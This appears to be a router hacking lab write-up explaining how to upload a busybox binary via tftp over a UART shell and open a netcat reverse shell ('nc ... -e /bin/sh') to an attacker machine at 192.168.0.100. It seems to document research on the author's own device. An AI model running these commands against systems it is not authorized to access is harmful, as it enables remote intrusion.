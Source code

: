 Download busybox binary from https://busybox.net/downloads/binaries/
We download the busybox in the same version (v1.19.2) as installed on the router to make sure that it works.
In our case we download the binary **busybox-mipsel**, this is for MIPS little endian, as output by **file**.

![[file_init.png]]

Now we need to find a place where to put the binary. We can see from the mount command that the squashfs file system we are on, is read-only:
![[Pasted image 20240226113741.png]]
But we can use ramfs mounted on /var to store files, as this is read-writable.
We are gonna create a new directory in /var/tmp to upload our tools:
```bash
cd /var/tmp
mkdir _MY_TOOLS_
cd _MY_TOOLS_
```

Make sure the binary is in the tftp folder on our attacker machine. Then upload the binary to the router via the UART shell:
```bash
tftp -g -r busybox-mipsel 192.168.0.100
```

The python tftp server had a bug and I had to resolve it:
https://github.com/mpetazzoni/ptftpd/pull/20/files

Afterwards the binary could be transferred:
![[trans_busybox1.png]]

![[trans_busybox2.png]]

Change permission on the binary:
```bash
chmod 777 busybox-mipsel
```

With the full busybox binary we get access to the **netcat** utility. With it we can get a proper shell instead of the junky UART shell.
Create a listener on the attacker machine:
```bash
nc -vlnp 1337
```

On the router:
```bash
./busybox-mipsel nc 192.168.0.100 1337 -e /bin/sh
```

Shell access on the attacker machine:
![[revshell.png]]